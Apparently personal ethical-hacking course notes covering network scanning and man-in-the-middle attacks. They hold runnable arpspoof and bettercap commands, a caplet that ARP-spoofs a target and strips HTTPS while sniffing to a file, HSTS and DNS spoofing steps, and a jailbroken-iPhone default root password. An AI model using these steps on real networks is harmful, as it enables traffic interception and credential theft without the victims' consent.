 

**Network Mapping**
<pre>
To find devices connected and their ip, mac etc
    netdiscover -r 10.0.1.1/24      (1/24 check for 1 to 254)
    q -  to quit.
Nmap/zenmap
zenmap
ping scan,quick scan,quick scan plus (slower)   - gives the os and version of the service
so that we can search the “service name + version” exploit  in the google

<b>NOTE:</b>when iphone is jail broken , it automatically creates service SSH and password : alpine
    ssh root@ipaddress 
    password:alpine
    
    
<b>MITM attack (Man in the middle attack):</b>
being in the middle of the connection ,intercepting and watching the tranferred data
communication between networks is carried out using mac address and not ip adr
Method1: Arp spoofing attack
</pre>



**ARP spoofing:**
<pre>
ARP-Address Resolution Protocol  
In this process, the hacker machine does 2 things
* hacklap telling router this is the IP (pretending to have targlap's IP address)
----router registers this ip and mac address of hacklap
* hacklap telling the targlap this is the IP (pretending to have router's IP address) 
----targlap registers this ip and mac address of hacklap 
ARP spoofing is possible because the clients even accepts response without sending requests and trusts without verification

<b>TOOLS</b>
<b>1.arpspoof</b>
    arp -a      (show ip and mac in arp table)
    arpspoof -i eth0(or)wlan0 -t   target'sIP   router'sIP            (to targetlap)
    arpspoof -i eth0(or)wlan0 -t   router'sIP   target'sIP            (to router)
after this cmd exec, the mac address mapped to the router inside the targlap is changed as hacklap's mac address 
(use arp -a to check)
* Linux defaultly have port-forwarding disabled , must enable port-forwarding for to-from communication
    echo 1 > /proc/sys/net/ipv4/ip_forward
    
<b>2.bettercap</b>
to go into 
    bettercap -iface  eth0(or)wlan0
    >help
    >help net.probe
    >net.probe on    (finds all ip's and mac of all devices connected to eth0/wlan0)
    >net.show    (shows the ip mac table)
    >help arp.spoof       (shows all submodules and params)
    
    
    (attack example)
    >net.probe on
    >set arp.spoof.fullduplex true      (set submodule_name true ,for making any params to true or false)
    >set arp.spoof.targets targetlap'sIP
    >arp.spoof on
    >net.sniff on    (capture and analyze data)
 to stop and come out
    >exit
* bypassing https ,To spoof and snif https , we would convert the https to http and give to target.
When converting Https to Http, set net.sniff.local true    (so that it doesn't feel insecure to show data on screen)
to see predefined caplets,
    >caplets.show
    >hstshijack/hstshijack
* bypassing hsts, some replacing scripts needed.
dns spoofing(redirecting the domain in the targetalp to our running apache server)
    service apache2 start  (run the local server)   and modify the \var\www\html\index.html as your wish
use dnf.spoof inside bettercap 
* setting hstshijack payload, go to \usr\local\share\bettercap\caplets\ in the set\hshstjack\payloads add , after the previous script and add like *:\filename.js    (* for all websites)
* to enter bettercap userinterface , 
    bettercap -iface  eth0(or)wlan0
    >http-ui          (if not installed >ui.update)
    username:user
    password:pass
* use Wireshark for future analysis of the file.cap
 </pre>   
  
  
<pre>
<b>NOTE:</b> use caplets for creating a script
    <b>CAPLET</b>(cmds as txt file )
    open text file and add the commands line by line
        net.probe on
        set arp.spoof.fullduplex true 
        set arp.spoof.targets 2.0.0.7
        arp.spoof on
        set net.sniff.local true
        set net.sniff.output /anylocation/file.cap       (to open in wireshark)
        set https.proxy.sslstrip true
        net.sniff on  
     save in extension filename.cap in /root
    to run caplet in bettercap
        bettercap -iface eth0 -caplet /root/filename.cap


    <b>Http</b> data in http is plain text, Man in the middle can read and edit request,response
    <b>Https</b> data is encrypted using TLS(transport layer security) or SSL (secure sockets layers)

   
   </pre>
    
